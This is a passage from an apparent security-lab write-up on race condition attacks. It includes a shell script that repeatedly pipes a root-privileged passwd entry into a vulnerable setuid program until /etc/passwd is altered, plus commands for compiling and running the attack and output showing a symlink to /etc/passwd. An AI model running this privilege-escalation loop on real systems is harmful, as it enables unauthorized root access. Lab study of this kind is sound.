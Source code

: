 The typical strategy in race condition attacks is to run the attack program in parallel to the target program, hoping to be able to do the critical step within that time window. Since the success of attack is only probabilistic, we have to run the attack many times to hit the race condition window once if the window is small. We will write a program to automate this process.

The following shell script `target_process.sh` runs the `ls -l` command at the very beginning, which outputs several pieces of information about a file, including the last modified time. By comparing the outputs of the command with the ones produced previously, we can tell whether the file has been modified or not. Then the shell script runs the `vulp` program in a loop, with the input given by the `echo` command (via a pipe). If the attack is successful, i.e., the password file is modified, the shell script will stop.

```bash
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]  # repeatedly check if /etc/passwd is modified
do
    echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" | ./vulp # run the vulnerable program
    new=$($CHECK_FILE)
done
echo "STOP... The password file has been changed!"
```

Again:

```bash
$ touch /tmp/XYZ
$ stat /tmp/XYZ
  File: /tmp/XYZ
  Size: 0         	Blocks: 0          IO Block: 4096   regular empty file
Device: 10301h/66305d	Inode: 2268        Links: 1
Access: (0664/-rw-rw-r--)  Uid: ( 1001/    seed)   Gid: ( 1001/    seed)
Access: 2021-11-29 17:04:38.704184361 -0500
Modify: 2021-11-29 17:04:38.704184361 -0500
Change: 2021-11-29 17:04:38.704184361 -0500
 Birth: -
$ ./target_process.sh
```

Then in a separate terminal window:

```bash
$ gcc attack.c -o attack
$ ./attack
```

Unfortunately, after ten minutes, the shell script was still running.

```bash
[November 29 2021] seed@xingjian:~/Documents/RaceCondition$ stat /tmp/XYZ
  File: /tmp/XYZ -> /etc/passwd
  Size: 11        	Blocks: 0          IO Block: 4096   symbolic link
Device: 10301h/66305d	Inode: 2268        Links: 1
Access: (0777/lrwxrwxrwx)  Uid: ( 1001/    seed)   Gid: ( 1001/    seed)
Access: 2021-11-29 17:23:32.436070811 -0500
Modify: 2021-11-29 17:23:32.432070801 -0500
Change: 2021-11-29 17:23:32.432070801 -0500
 Birth: -
```
